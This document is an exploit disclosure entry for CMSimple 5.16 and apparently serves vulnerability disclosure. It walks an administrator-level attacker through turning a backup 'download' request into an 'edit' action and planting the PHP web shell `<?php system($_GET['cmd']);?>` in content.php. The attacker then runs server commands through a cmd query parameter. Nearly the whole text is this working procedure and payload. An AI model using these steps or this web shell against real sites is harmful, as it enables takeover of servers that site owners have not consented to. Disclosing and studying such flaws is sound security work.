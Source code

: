 
## Basic Info

- **Exploit Title:** CMSimple 5.16 backup file RCE (Authenticated)
- **Exploit Author:** h4ckr4v3n
- **Vendor Homepage:** https://www.cmsimple.org/
- **Version:** 5.16
- **Tested on:** Ubuntu 22.04/PHP 7.4/Nginx 1.18.0

## Description
Functionality of downloading php backup files in CMSimple 5.16 allows a user with administrator rights to inject and execute arbitrary php code

## Proof of Concept

1) Log In as Administrator.
2) Navigate to "Backup" tab.
3) Click on "download" button near content or pagedata file and intercept outgoing request.
4) Change GET request `/?file=content&action=download` to    `/?file=content&action=edit`
5) In code editor delete PHP-code to access file directly and put your payload: `<?php system($_GET['cmd']);?>`
6) Save file.
7) Now you can execute commands via cmd parameter: `/content/content.php?cmd=id`
![[cmsimpl_backup_rce1.png]]
![[cmsimpl_backup_rce2.png]]
![[cmsimpl_backup_rce3.png]]
![[cmsimpl_backup_rce4.png]]
